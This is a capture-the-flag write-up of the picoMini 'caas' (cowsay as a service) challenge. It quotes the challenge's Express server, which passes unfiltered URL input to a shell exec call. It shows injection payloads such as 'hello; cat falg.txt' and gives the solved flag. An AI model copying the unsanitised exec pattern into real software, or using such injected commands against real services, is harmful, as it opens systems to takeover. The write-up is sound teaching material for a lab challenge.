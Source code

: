 # picoMini caas Write Up

## Description

> Now presenting [cowsay as a service](https://caas.mars.picoctf.net)

## Solution

The link in the description takes us to a website explaining that we can use the "Cowsay as a Service" utility making a request to the URL ``https://caas.mars.picoctf.net/cowsay/{message}`` replacing message with the desired contents. Cowsay is a linux command line utility that takes in a message to be displayed and produces an ascii drawing of a cow saying the message.

The following python code (`script.py`) takes in a message as a command line argument and uses it to make a GET request to the above URL:

```python
import requests
import sys

response = requests.get(f'http://caas.mars.picoctf.net/cowsay/{sys.argv[1]}')
print(response.text)
```

Running the command `python script.py hello` produces the following output:

```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Also in the challenge description is a downloadable `index.js` file with the following contents:

```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

The `cowsay` utility is being called as a bash command through the javascript `exec` call with our message being passed in as an unfiltered parameter. The `;` character can be used to separate multiple bash commands on a single line. This means that if we include a `;` in our message to the cowsay service, then anything following it will be executed as a bash command.

To test this, I ran the command `python script.py "hello; ls` resulting in the following output:

```
_______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

In addition to the cow message is the results of the call to `ls`, notably including a file called `falg.txt`. Running `python script.py "hello; cat falg.txt"` produces the following output:

```
 _______
< hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

Thus the flag is:

```
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```